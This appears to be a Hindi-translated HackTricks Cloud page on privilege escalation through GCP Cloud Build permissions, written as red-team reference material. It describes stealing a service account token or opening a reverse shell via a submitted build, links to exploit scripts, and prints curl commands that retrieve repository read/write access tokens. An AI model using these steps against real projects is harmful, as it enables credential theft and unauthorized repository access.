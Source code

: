 # GCP - Cloudbuild Privesc

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>
{% endhint %}

## cloudbuild

Cloud Build के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

इस अनुमति के साथ आप **एक cloud build सबमिट कर सकते हैं**। cloudbuild मशीन के फाइल सिस्टम में **डिफ़ॉल्ट रूप से cloudbuild Service Account का टोकन** होगा: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`। हालांकि, आप cloudbuild कॉन्फ़िगरेशन में **प्रोजेक्ट के अंदर किसी भी service account को निर्दिष्ट कर सकते हैं**।\
इसलिए, आप मशीन को अपने सर्वर पर टोकन को निकालने के लिए कह सकते हैं या **उसके अंदर एक रिवर्स शेल प्राप्त कर सकते हैं और स्वयं टोकन प्राप्त कर सकते हैं** (टोकन वाली फ़ाइल बदल सकती है)।

आप मूल exploit script [**यहाँ GitHub पर**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) पा सकते हैं (लेकिन जिस स्थान से यह टोकन ले रहा है वह मेरे लिए काम नहीं किया)। इसलिए, एक स्क्रिप्ट देखें जो [**vuln environment के निर्माण, exploit और सफाई को स्वचालित करती है यहाँ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) और एक python script जो cloudbuild मशीन के अंदर एक रिवर्स शेल प्राप्त करती है और [**इसे यहाँ चुराती है**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (कोड में आप अन्य service accounts को निर्दिष्ट करने का तरीका पा सकते हैं)**।**

अधिक गहन व्याख्या के लिए, [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/) पर जाएं

### `cloudbuild.builds.update`

**संभावित रूप से** इस अनुमति के साथ आप **एक cloud build को अपडेट कर सकते हैं और बस service account टोकन को चुरा सकते हैं** जैसे कि इसे पिछली अनुमति के साथ किया गया था (लेकिन दुर्भाग्य से इस लेखन के समय मैं उस API को कॉल करने का कोई तरीका नहीं पा सका)।

TODO

### `cloudbuild.repositories.accessReadToken`

इस अनुमति के साथ उपयोगकर्ता **read access token** प्राप्त कर सकता है जिसका उपयोग repository तक पहुंचने के लिए किया जाता है:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

इस अनुमति के साथ उपयोगकर्ता **पढ़ने और लिखने का एक्सेस टोकन** प्राप्त कर सकता है जिसका उपयोग रिपॉजिटरी तक पहुंचने के लिए किया जाता है:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

इस अनुमति के साथ आप **उन रिपोज़िटरीज़ को प्राप्त कर सकते हैं जिन तक कनेक्शन की पहुंच है:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* PRs सबमिट करके हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

